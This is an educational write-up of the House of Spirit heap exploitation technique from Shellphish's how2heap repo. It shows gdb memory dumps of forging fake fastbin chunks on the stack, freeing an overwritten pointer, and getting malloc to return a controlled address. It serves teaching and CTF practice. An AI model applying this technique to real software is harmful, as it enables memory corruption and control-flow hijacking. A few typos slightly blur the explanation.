 # Shellphish how2heap House of Spirit

This is another section of the CTF team Shellphish's how2heap educational github repo. This time, we are focusing on the House of Spirit attack.

The goal of this is to get malloc to return a pointer to a that we control (it can be in the heap, stack, or anywhere that we can write to). It will require us to make two fake chunks, by writing two eight byte integers. After that we just need to overwrite a ptr to the first fake chunk, and free it.

## Exploit Process

First we will need to call malloc once, so that it sets up it's memory.

Proceeding that we will start setting up our fake chunk. Right now it just looks like this`):

```
gdb-peda$ x/12g 0x7fffffffddd0
0x7fffffffddd0:	0x00000000000000c2	0x00007fffffffde0f
0x7fffffffdde0:	0x00007fffffffde0e	0x00007ffff7abab85
0x7fffffffddf0:	0x0000000000000001	0x0000555555554a5d
0x7fffffffde00:	0x0000000000000000	0x0000000000000000
0x7fffffffde10:	0x0000555555554a10	0x00005555555546d0
0x7fffffffde20:	0x00007fffffffdf10	0x04254386eda99100
```

This chunk of memory will end up splitting into two fake chunks. The first starts at `0x7fffffffddd0` and the second starts at `0x7fffffffde10` (by start I mean where the metadata for the fake chunk starts).

Next we will have to edit the size for our first fake chunk (will be stored at `0x7fffffffddd8`). One thing about it, the size has to be 16 bytes more than the total region, to account for the 16 bytes of chunk metadata. If we input the size to be `0x40`, that will fit perfectly since `0x7fffffffde10 - 0x7fffffffddd0 = 0x40` (this also still falls into the fastbin category which for x64 enviornments is equal to or under 128 bytes). In addition to that, another we also need to look out for the `IS_MAPPED` (second least signifcant bit, right after `previous_chunk_in_use`) and `NON_MAIN_ARENA` (third least signifcant bit, right after `IS_MAPPED`) bits are switched to 0x0 they will pass the check in free. In addition to this, the size we put will need to be equivalent to size that we malloc to get the fake pointer, after it has been rounded to the internal size (on x64 environments 0x30-0x38 will round up to 0x40)  So now our chunk looks like this:

```
gdb-peda$ x/12g 0x7fffffffddd0
0x7fffffffddd0:	0x00000000000000c2	0x0000000000000040
0x7fffffffdde0:	0x00007fffffffde0e	0x00007ffff7abab85
0x7fffffffddf0:	0x0000000000000001	0x0000555555554a5d
0x7fffffffde00:	0x0000000000000000	0x0000000000000000
0x7fffffffde10:	0x0000555555554a10	0x00005555555546d0
0x7fffffffde20:	0x00007fffffffdf10	0x04254386eda99100
```

Next we will need to write the size of the second fake chunk. This value will be stored at `1`. The value that we put here doesn't matter too much. In the section it used `0x1234`, however I got it to work with values ranging from `0x11` to `0x1200`. However we do need this value in order for this to work, and the range of values you can have which will pass all of the checks as you can see is quite large (it has to be less than `av->system_mem` which is `0x1d4c0` or 128 kb on x64 enviornments and greater than 2*SIZE_SZ which is `0x10` on 64 bit systems). With that our fake chunk looks like this:

```
gdb-peda$ x/12g 0x7fffffffddd0
0x7fffffffddd0:	0x00000000000000c2	0x0000000000000040
0x7fffffffdde0:	0x00007fffffffde0e	0x00007ffff7abab85
0x7fffffffddf0:	0x0000000000000001	0x0000555555554a5d
0x7fffffffde00:	0x0000000000000000	0x0000000000000000
0x7fffffffde10:	0x0000555555554a10	0x0000000000001234
0x7fffffffde20:	0x00007fffffffdf10	0x04254386eda99100
```

Now we can just overwrite a pointer to point to chunk `0x7fffffffdde0` (it will point to the content section of the fake chunk, which is supposed to be after the 16 bytes of chunk metadata). We can see it here that we have overwritten a pointer on the stack with that address:

```
gdb-peda$ find 0x7fffffffdde0
Searching for '0x7fffffffdde0' in: None ranges
Found 1 results, display max 1 items:
[stack] : 0x7fffffffddc8 --> 0x7fffffffdde0 --> 0x7fffffffde0e --> 0x555555554a100000 
``` 

Proceeding that, we can free the pointer which we have overwritten. GDB tells us that the argument for free is indeed the pointer to our first fake chunk:

```
Guessed arguments:
arg[0]: 0x7fffffffdde0 --> 0x7fffffffde0e --> 0x555555554a100000 
```

After the call to free, we can see that our chunk has been addres to the fastbin list (it is the address we freed minus `0x10` because of the 16 bytes of heap metadata)

```
gdb-peda$ p main_arena.fastbinsY
$1 = {0x0, 0x0, 0x7fffffffddd0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}
```
After that, the fake chunk has been freed it has been added to the fast bin list. You should just be able to allocate another chunk using `malloc` of a similar size, and you will get the chunk allocated (which we can see is what we got):

```
Now the next malloc will return the region of our fake chunk at 0x7fffffffddd8, which will be 0x7fffffffdde0!
malloc(0x30): 0x7fffffffdde0
```


## Section Running

Below you can see the actual elf for this section running:

```
This file demonstrates the house of spirit attack.
Calling malloc() once so that it sets up its memory.
We will now overwrite a pointer to point to a fake 'fastbin' region.
This region (memory of length: 80) contains two chunks. The first starts at 0x7fffffffddd8 and the second at 0x7fffffffde08.
This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.
... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. 
The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.
Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, 0x7fffffffddd8.
... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7fffffffddd8, which will be 0x7fffffffdde0!
malloc(0x30): 0x7fffffffdde0
```
